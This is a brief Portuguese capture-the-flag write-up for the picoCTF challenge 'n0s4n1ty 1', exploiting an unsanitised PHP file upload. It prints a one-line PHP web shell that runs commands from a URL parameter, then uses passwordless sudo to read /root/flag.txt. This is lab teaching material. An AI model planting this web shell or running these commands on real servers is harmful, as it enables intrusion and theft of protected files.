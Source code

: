 # n0s4n1ty 1

https://play.picoctf.org/practice/challenge/482?category=1&difficulty=1&originalEvent=74&page=1

Um desafio bem interessante onde temos o upload de arquivo não sanitizado.
![alt text](https://github.com/pleilistt/CTFs/blob/main/images/pico1.png)

Ao realizar um upload, vemos que é usado php para isso.
Logo podemos criar um código php que irá aceitar comandos linux via URL.

```php
<? echo shell_exec($_GET['cmd'].' 2>&1'); ?>
```

desta forma podemos rodar dentro da URL: ?cmd=ls

Ao checar nossas permissões com "sudo -l" vemos que não precisamos de senhas para executar tarefas. Então podemos utilizar dentro da URL:

```
?cmd=sudo cat /root/flag.txt
```
